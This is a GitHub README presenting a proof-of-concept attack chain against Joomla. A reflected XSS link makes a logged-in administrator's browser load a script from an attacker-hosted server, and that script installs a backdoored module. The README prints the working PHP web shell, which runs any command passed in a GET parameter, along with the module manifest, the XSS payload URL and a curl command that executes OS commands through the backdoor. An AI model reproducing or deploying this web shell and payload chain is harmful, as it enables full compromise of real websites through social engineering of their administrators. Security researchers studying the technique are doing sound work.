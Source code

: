 # [RCE] Install Module

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [create backdoored CMS module] backdoor source code

    * **NOTE**: update/customize PHP backdoor in `mod_RCE_PoC.php`

    (`mod_RCE_PoC.xml`)

    ```
    <?xml version="1.0" encoding="utf-8"?>
    <extension type="module" version="3.8" client="site" method="upgrade">
    	<name>Joomla RCE PoC</name>
    	<creationDate>Feb 2024</creationDate>
    	<author>test</author>
    	<authorEmail>test@localhost</authorEmail>
    	<authorUrl>https://localhost</authorUrl>
    	<copyright>test</copyright>
    	<version>1.0</version>
    	<files>
    		<filename module="mod_RCE_PoC">mod_RCE_PoC.php</filename>
    		<filename>mod_RCE_PoC.xml</filename>
    	</files>
    </extension>
    ```

    (`mod_RCE_PoC.php`)

    ```
    <?php
    if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
    ?>
    ```

2. [create backdoored CMS module] create Joomla module

    ```
    zip mod_RCE_PoC.zip mod_RCE_PoC.xml mod_RCE_PoC.php
    ```

3. [setup exploit] change payload variable values (`installModuleJoomla.js`)

    `exploitURL` - URL of Joomla module (containing backdoor) to be installed on target site

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/joomla"`)

4. [setup exploit] setup web server (to serve the payload/module)

5. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

6. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/rxss.php?q=<script src=http://192.168.5.5/installModuleJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.5` - web server hosting the payload

7. [post exploit] execute OS command

    ```
    curl -s "http://192.168.5.19/modules/mod_rce_poc/mod_RCE_PoC.php?pass=test&cmd=id" | head -n 1
    ```

    * **NOTE**: module URL constructed based on values specified in installed module

8. [uninstall module] uninstall module via GUI

    *Joomla ➔ System ➔ [Manage] Extensions ➔ (sort by latest ID) ➔ (mark checkbox) Joomla RCE PoC ➔ Uninstall ➔ Yes*

## Screenshot

* **NOTE**: the screenshot covers steps 1 to 7 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/InstallModule/screenshots/Joomla_-_install_module_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Joomla/InstallModule/screenshots/Joomla_-_install_module_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/a4f01269-480f-498c-a5ac-b437d0364d78
